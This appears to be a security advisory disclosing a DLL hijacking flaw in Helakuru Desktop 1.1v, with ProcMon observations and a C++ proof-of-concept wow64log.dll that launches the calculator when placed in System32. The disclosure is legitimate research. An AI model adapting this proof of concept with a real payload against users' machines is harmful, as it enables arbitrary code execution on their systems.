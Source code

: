**DLL Hijacking Vulnerability in Helakuru Desktop**
---

**Summary**

The Helakuru Desktop version operates on both 64-bit and 32-bit architectures. During testing, it was identified that the program attempts to load wow64log.dll, which is missing from the application. This results in a "Name not found" error, exposing the program to a DLL Hijacking vulnerability. By crafting a malicious wow64log.dll, arbitrary code execution can be achieved.

**Affected Version**

Helakuru Desktop 1.1v

**Steps to Reproduce**

1. Monitor DLL Loading with ProcMon
 * ProcMon showing the CreateFile operation with "Name not found" for wow64log.dll
   ![Pasted image 20240925232040](https://github.com/user-attachments/assets/e3f552d8-bb3c-4c61-87ef-8a1dd5fa9bf0)

2. Create a Malicious wow64log.dll
``` C++
#include <windows.h>
#include <stdio.h>

void LaunchCalculator()
{
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    const char* calcCmd = "C:\\Windows\\System32\\calc.exe";

    if (!CreateProcessA(
        NULL,          
        (LPSTR)calcCmd, 
        NULL,          
        NULL,          
        FALSE,         
        0,             
        NULL,          
        NULL,          
        &si,           
        &pi))          
    {
        printf("CreateProcess failed (%d).\n", GetLastError());
    }
    else
    {
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
    }
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        LaunchCalculator();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

3. Place the Malicious DLL
 * Copy the custom wow64log.dll into C:\Windows\System32\.

4. Run Helakuru Desktop
 * Launch Helakuru Desktop again. The malicious wow64log.dll will now be loaded into the program, triggering the Calculator as a demonstration of successful DLL injection.
 ![Pasted image 20240925233737](https://github.com/user-attachments/assets/d01f179e-e09d-45e1-8b04-2922102f7b69)

5. Verify DLL Load using ProcMon
 * Reopen ProcMon and observe that the wow64log.dll is successfully loaded this time, confirming that the custom DLL has been executed by the program.
   ![Pasted image 20240925232728](https://github.com/user-attachments/assets/985f373f-9e7a-4d4b-b3d3-0bed98710be4)

**Impact**: This vulnerability allows for arbitrary code execution.


